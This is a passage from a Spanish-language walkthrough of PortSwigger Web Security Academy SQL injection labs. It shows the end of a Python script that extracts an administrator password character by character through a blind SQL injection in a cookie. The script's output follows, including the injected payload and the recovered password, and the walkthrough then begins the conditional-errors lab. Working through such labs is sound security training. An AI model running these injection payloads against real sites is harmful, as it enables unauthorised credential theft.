 ```bash
            }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break
if __name__ == '__main__':
    makeRequest()

```

```bash
❯ python3 portswigger_ce.py
[◤] Fuerza Bruta: h9NyMIr3HYJLUkb8' and (select substring(password,20,1) from users where username='administrator')='r
[▅] Password: 9ukm2pkd8yzk570rqv2r
```

![](/assets/portswigger/sqli/web63.png)

## Blind SQL injection with conditional errors

- <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>.

- Para esta inyeccion no vas a ver errores en la respuesta si nos vamos a ver códigos de estado y en eso nos vamos a basar y bueno es otro vez atreves de la cookie asi que vamos a seleccionar una categoría y de hay pues vamos a interceptar la petición con **Burpsuite** y bueno ahora no vemos nada del welcome back!.

![](/assets/portswigger/sqli/web64.png)
